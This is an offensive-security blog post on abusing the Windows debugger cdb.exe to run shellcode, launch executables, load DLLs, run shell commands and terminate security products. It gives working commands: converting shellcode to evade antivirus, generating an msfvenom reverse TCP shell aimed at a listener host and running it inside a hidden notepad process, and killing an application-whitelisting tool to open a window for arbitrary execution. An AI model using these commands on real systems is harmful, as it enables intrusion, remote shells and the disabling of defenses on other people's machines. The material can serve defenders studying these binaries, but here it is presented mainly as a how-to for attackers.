





Exploring the little known uses of cdb<!-- end -->.

I personally feel cdb doesn't get the credit it deserves, I mean it has <i>a lot</i> of uses. If I missed any use case feel free to DM me on Twitter.

# Table of Contents

1. Running Shellcode
2. Launching an Executable
3. Running a DLL
4. Executing Shell Commands
5. Terminating Security Solutions

# Running Shellcode

Exploit Monday released a great <a href="http://www.exploit-monday.com/2016/08/windbg-cdb-shellcode-runner.html">article</a> in 2016 showing how to use cdb.exe to run shellcode and bypass application whitelisting. I highly recommend you check it out before continuing along. Essentially what you're doing is:

1. Allocating RWX memory
2. Copying the shellcode to the allocated buffer
3. Executing the shellcode

There's nothing difficult about it but I felt as though the unusual shellcode syntax used by cdb may have scared off some people from trying this technique as it looks quite intimidating at first glance. Let's see how to convert regular shellcode to the one used by cdb.

## Converting the Shellcode

    #Input
    \x6a

    #Conversion
    #Strip '\x' and convert shellcode to uppercase
    #hex_counter starts at 00
    ";eb @$t0+" + hex_counter + " " + upper(strip(shellcode))

    #Output
    ;eb @$t0+00 6A

It's that easy! It's also great at evading AV detection due to its unusual format. If you're lazy like me and don't want to write a script then you're in luck, here's a usable <a href="https://github.com/galoryber/MITRE/blob/master/Defense_Evasion/T1127-CDB.py">script</a> I found online.

## Example

First generate shellcode using msfvenom.

    msfvenom -p window/x64/shell_reverse_tcp LHOST=10.0.0.197 LPORT=4444 -f python

Next, Download the aforementioned script and replace the shellcode with yours then run the script.

    python3 script.py > test.wds

Then send it over to the target machine and run the following command

    cdb.exe -pd -cf c:\path\to\payload\test.wds -o notepad.exe

Notepad won't appear to the user but it is running in the background. The notepad process looks benign until you see that it's establishing a network connection, so it'd be better to use a more realistic program.

# Launching an Executable

You can use cdb to spawn an executable as a child process. You'll need to attach cbd to a running process, I'll be using notepad.

    #use -p to specify PID instead
    cdb.exe -pd -pn notepad.exe -a "c:\users\mr.d0x\desktop\out.exe"

    #When it hits any breakpoint press 'g'
    ntdll!DbgBreakPoint:
    00007ffb`58a60120 cc
    0:003> g

Looking at Process Hacker we see cdb spawning the executable as a child process.

## Detaching The Executable

You can also hit CTRL+C then 'q' in the cdb console to exit cdb without impacting the executable or the process it's attached to, thanks to the -pd flag. The downside of doing that is losing cdb as the parent process.

# Running a DLL

You can use cdb to load a DLL. The DLL is loaded inside cdb not the attached process. The downside of this technique is it won't work if you don't have the rest of the debugger tools because it requires additional DLLs that are located inside the directory.

To execute a DLL, first attach cdb to any process.

    cdb.exe -pd -pn notepad.exe

Then use the .load command and specify the full path to your DLL.

    .load c:\path\to\dll\evil.dll

If we look at the DLLs loaded by cdb we see our injected DLL, d32lib.dll.

# Executing Shell Commands

Again, attach cdb to any process.

    cdb.exe -pd -pn notepad.exe

Use .shell to run a shell command.

    .shell ping 127.0.0.1

In Process Hacker we can see that cdb spawns cmd.exe to run these commands.

# Terminating Security Solutions

Have you ever tried to stop a security solution? If you did then you probably got something like this:

How can cdb help? If you can get cdb to attach to a process then you can cause it to terminate. I used this unorthodox technique against an application whitelisting tool that shall remain unnamed. It caused the process to terminate which gave me a window of about 30 seconds to run any executable I wanted.

    #Run this as administrator
    #If you don't get 'Access denied' then just press 'q'
    #The attached process will then terminate
    cdb.exe -p <PID>

# References

* http://www.exploit-monday.com/2016/08/windbg-cdb-shellcode-runner.html
* https://github.com/galoryber/MITRE/blob/master/Defense_Evasion/
* https://fortynorthsecurity.com/blog/how-to-bypass-wdac-with-dbgsrv-exe/

# Acknowledgement

Shout out to <a href="https://www.instagram.com/spooky_sec/">@spooky_sec</a> for helping me out in running some of these tests. Follow him on Instagram for good reverse engineering posts.

